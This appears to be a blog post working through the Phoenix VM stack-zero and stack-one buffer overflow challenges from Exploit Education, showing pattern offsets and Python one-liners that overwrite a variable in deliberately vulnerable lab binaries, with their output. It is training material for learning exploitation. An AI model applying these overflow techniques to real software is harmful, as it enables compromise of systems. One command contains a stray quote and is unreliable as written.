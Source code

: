 ```yaml
---
title: "Phoenix"
date: 2020-03-23T11:24:34-04:00
draft: false
description: "Adventures in Learning ROP (Return Oriented Programming) | Using Exploit-Exercises Phoenix VM Image"
---
```


**Description:** 

The Phoenix VM Image can be found here:  https://exploit.education/phoenix/

The virtual machine containers a number of vulnerable executables that allow students to learn stack, format-string, and heap-based overflows. The stack series contains executables stack 0-6. Format string vulnerabilities include format 0-4, and the heap vulnerabilitites include head 0-3.  

# Stack 0

Running ./stack-zero provides us with a place to enter some data. Entering a random sequence "AAAA" gives us the output:  ```Uh oh, 'changeme' has not yet been changed. Would you like to try again?```

Trying to send the program even more data (since this is a BoF lab) results in a successful completion of the challenge. 
```
python -c 'print "A" * 100' | ./stack-zero

Welcome to phoenix/stack-zero, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed!
```


# Stack 1  

```bash
pattern_create.rb -l 100
```  

```bash
./stack-one Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A  

Welcome to phoenix/stack-one, brought to you by https://exploit.education
Getting closer! changeme is currently 0x63413163, we want 0x496c5962
```

```bash
pattern_offset -l 0x63413163

[*] Exact match at offset 64  
```  

Since we know there is a buffer size of 64 before we write to the changeme address space, we can write 64 bytes of garbage, followed by the intended value to store, written in little-endian so that it can be properly stored in memory. 

```bash
python -c 'print "A" * 64 + "\x62\x59\x6c\x49"'
```



The above will print 64 A's followed by the little-endian address.  

We can pass this to the stack-one executable as such:  


__python__
```bash
./stack-one $($python -c 'print "A" * 64" + "\x62\x59\x6c\x49"')

Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value  
```

__python3__
```bash
./stack-one $(python3 -c 'print("A"*64 + "\x62\x59\x6c\x49")')
Welcome to phoenix/stack-one, brought to you by https://exploit.education
Well done, you have successfully set changeme to the correct value
```









